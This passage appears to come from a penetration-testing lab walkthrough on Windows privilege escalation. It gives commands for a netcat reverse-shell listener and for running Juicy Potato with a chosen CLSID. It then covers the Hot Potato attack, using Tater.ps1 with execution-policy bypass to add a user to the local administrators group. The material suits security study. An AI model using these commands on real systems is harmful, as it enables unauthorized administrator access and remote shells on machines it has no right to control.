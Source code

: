 5. Set a listener on port 9999
```console
$ sudo rlwrap nc -lnvp 9999
```

### Windows VM

1. Run juicy potato
```console
$ ./jp.exe -p shell.bat -l 7777 -t *
```
+ If this fail
+ Try with a different CLSID depending upon the system version and select the CLSID which supports NT AUTHORITY\SYSTEM
+ Link --> [http://ohpe.it/juicy-potato/CLSID](http://ohpe.it/juicy-potato/CLSID)

2. Lets run again
```console
$ ./jp.exe -p shell.bat -l 7777 -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

### Kali VM

1. Wait for a reverse shell on your kali machine.

# <span style="color:lightblue">Hot Potato attack</span>

## <span style="color:lightgreen">Methodology</span>

Hot Potato takes advantage of known issues in Windows to gain local privilege escalation in default configurations, namely NTLM relay (specifically HTTP->SMB relay) and NBNS spoofing.

## <span style="color:lightgreen">Detection</span>

### Windows VM

1. We should have `SeImpersonatePrivilege` privileges enabled
```console
C:\Temp> whoami /priv
```
![image](https://user-images.githubusercontent.com/59029171/161144004-97322646-a231-4fef-afd8-239570f44f8c.png)

##  <span style="color:lightgreen">Exploitation</span>

I will be demonstrating a simple exploitation technique by adding a user to the local administrators group using [Tater.ps1](https://github.com/Kevin-Robertson/Tater/blob/master/Tater.ps1)

### Windows VM

1. Enter the following to gain administrator access
```console
C:\Temp> powershell.exe -nop -ep bypass
PS C:\Temp> Import-Module C:\Temp\Tater.ps1
PS C:\Temp> Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```
